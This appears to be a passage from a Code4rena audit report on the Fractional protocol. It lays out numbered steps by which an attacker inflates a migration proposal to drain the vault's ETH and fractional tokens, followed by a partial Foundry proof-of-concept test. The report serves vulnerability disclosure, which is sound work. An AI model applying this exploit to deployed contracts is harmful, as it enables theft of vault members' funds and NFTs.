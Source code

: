 1- Lack of funds (they were stolen).

2- Only 1 LIVE proposal can be running at the same time.

A key element to take note is that only 1 proposal can be `LIVE`, but before a proposal goes `LIVE`, many can be created at the same time, and users can join those that resonate with them, sending their ETH and fractional tokens to support it. The vault will have a big amount of ETH and fractional tokens in these situations.

#### Steps to reproduce

An attacker will exploit the inflation bug as follows:

1- Wait until there's at least 50% of the total supply of fractional tokens in the vault, being stacked into one or several proposals.

2- Create an evil proposal with evil modules and inflate the amount of ETH and fractional tokens in your proposal up to the exact amount of the total ETH and fractional tokens in the vault.

3- Commit your proposal. That will send all ETH and fractional tokens in the vault to your proposal and `start` it.

Now that your proposal has over 51% total supply of fractional tokens in it and a lot of ETH stolen from members of the vault, many creative things can be done, including taking over the Vault's NFTs with an evil module once the proposal goes through.

*NOTE: In the `REJECTION_PERIOD` victims can buy tokens to try to stop the proposal from going through, but the price of every tokens is calculated using the `depositAmount` and `msg.value` (<https://github.com/code-423n4/2022-07-fractional/blob/e2c5a962a94106f9495eb96769d7f60f7d5b14c9/src/modules/Buyout.sol#L86>) both values manipulated by the attacker.*

### Proof of Concept

The proof of concept took 4 hours and 33 mins to be written, as I tried hard to get a clean, and easy to understand and reproducible PoC that illustrates the impact of the attack.

Everything was put inside a function filled with comments at every stage, that can be included within the Unit Tests of the project.

You can read the PoC or include the function in `test/Migration.t.sol` and call `forge test -vvv --match-test testProposalAttack` to execute it.

```
    function testProposalAttack() public {
        initializeMigration(alice, bob, TOTAL_SUPPLY, HALF_SUPPLY, true);
        (nftReceiverSelectors, nftReceiverPlugins) = initializeNFTReceiver();
        address[] memory modules = new address[](1);
        modules[0] = address(mockModule);

        // STEP 0
        // The attacker waits until a proposal with over 51% joins and a nice amount of ETH is made

        // STEP 1
        // Alice makes a legit proposal
        alice.migrationModule.propose(
            vault,
            modules,
            nftReceiverPlugins,
            nftReceiverSelectors,
            TOTAL_SUPPLY * 2,
            1 ether
        );

        // STEP 3
        // Alice joins his proposal with 50 ETH and 5,000 tokens out of a total supply of 10,000
        alice.migrationModule.join{value: 50 ether}(vault, 1, 5000);

        // NOTE: In a real world scenario, several members will join Alice's legit proposal with their own ETH and tokens,
```